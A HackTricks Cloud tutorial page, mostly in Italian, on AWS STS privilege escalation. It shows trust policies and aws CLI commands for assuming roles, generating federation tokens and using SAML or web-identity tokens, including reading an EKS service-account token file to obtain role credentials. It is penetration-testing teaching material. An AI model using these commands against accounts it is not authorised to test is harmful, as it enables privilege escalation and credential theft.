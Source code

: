 # AWS - STS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

### `sts:AssumeRole`

Ogni ruolo è creato con una **politica di fiducia del ruolo**, questa politica indica **chi può assumere il ruolo creato**. Se un ruolo dello **stesso account** dice che un account può assumerlo, significa che l'account sarà in grado di accedere al ruolo (e potenzialmente **privesc**).

Ad esempio, la seguente politica di fiducia del ruolo indica che chiunque può assumerlo, quindi **qualsiasi utente sarà in grado di privesc** ai permessi associati a quel ruolo.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Puoi impersonare un ruolo eseguendo:
```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```
**Impatto Potenziale:** Privesc al ruolo.

{% hint style="danger" %}
Nota che in questo caso il permesso `sts:AssumeRole` deve essere **indicato nel ruolo da abusare** e non in una policy appartenente all'attaccante.\
Con un'eccezione, per **assumere un ruolo da un account diverso** l'account dell'attaccante **deve anche** avere il **`sts:AssumeRole`** sul ruolo.
{% endhint %}

### **`sts:GetFederationToken`**

Con questo permesso è possibile generare credenziali per impersonare qualsiasi utente:
```bash
aws sts get-federation-token --name <username>
```
Questo è il modo in cui questo permesso può essere concesso in modo sicuro senza dare accesso a impersonare altri utenti:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "VisualEditor0",
"Effect": "Allow",
"Action": "sts:GetFederationToken",
"Resource": "arn:aws:sts::947247140022:federated-user/${aws:username}"
}
]
}
```
### `sts:AssumeRoleWithSAML`

Una policy di fiducia con questo ruolo concede **agli utenti autenticati tramite SAML l'accesso per impersonare il ruolo.**

Un esempio di una policy di fiducia con questo permesso è:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OneLogin",
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
},
"Action": "sts:AssumeRoleWithSAML",
"Condition": {
"StringEquals": {
"SAML:aud": "https://signin.aws.amazon.com/saml"
}
}
}
]
}
```
Per generare credenziali per impersonare il ruolo in generale potresti usare qualcosa come:
```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```
Ma i **provider** potrebbero avere i **loro strumenti** per semplificare questo, come [onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role):

{% code overflow="wrap" %}
```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```
{% endcode %}

**Impatto Potenziale:** Privesc al ruolo.

### `sts:AssumeRoleWithWebIdentity`

Questa autorizzazione consente di ottenere un insieme di credenziali di sicurezza temporanee per **utenti che sono stati autenticati in un'applicazione mobile, web, EKS...** con un provider di identità web. [Scopri di più qui.](https://docs.aws.amazon.com/STS/latest/APIReference/API\_AssumeRoleWithWebIdentity.html)

Ad esempio, se un **account di servizio EKS** dovrebbe essere in grado di **fingere un ruolo IAM**, avrà un token in **`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`** e può **assumere il ruolo e ottenere credenziali** facendo qualcosa come:

{% code overflow="wrap" %}
```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```
{% endcode %}

### Abuso di Federazione

{% content-ref url="../aws-basic-information/aws-federation-abuse.md" %}
[aws-federation-abuse.md](../aws-basic-information/aws-federation-abuse.md)
{% endcontent-ref %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
